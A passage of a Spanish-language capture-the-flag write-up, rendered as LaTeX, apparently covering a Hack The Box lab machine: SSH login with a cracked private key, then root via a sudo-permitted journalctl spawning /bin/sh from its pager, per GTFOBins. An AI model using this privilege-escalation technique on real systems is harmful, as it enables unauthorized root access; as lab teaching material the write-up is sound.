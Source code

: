\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
La contraseña de la id\_rsa a sido crackeada y ya nos podemos connectar con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa david@10.10.10.165 }
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegio-para-root}{%
\subsection*{Escalada de privilegio para root}\label{escalada-de-privilegio-para-root}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{bin}

\BuiltInTok{cd}\NormalTok{ bin/}
\FunctionTok{cat}\NormalTok{ server-stats.sh}
\end{Highlighting}
\end{Shaded}

Vemos en este fichero que sudo puede executar \textbf{journalctl}

Vamos a la pagina de \href{gtfobins.github.io}{gtfobins} y buscamos por jounalctl

El \textbf{gtfobins} dice que hay que lanzar jounalctl con sudo y en otra linea poner \texttt{!/bin/sh}

\begin{quote}
{[}!{]} NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh
\end{quote}

Ya estamos root y seguimos mas hack que nunca.

\hypertarget{armageddon}{%
\chapter*{Armageddon}\label{armageddon}}

\hypertarget{introduccion-2}{%
\section*{Introduccion}\label{introduccion-2}}
\end{document}
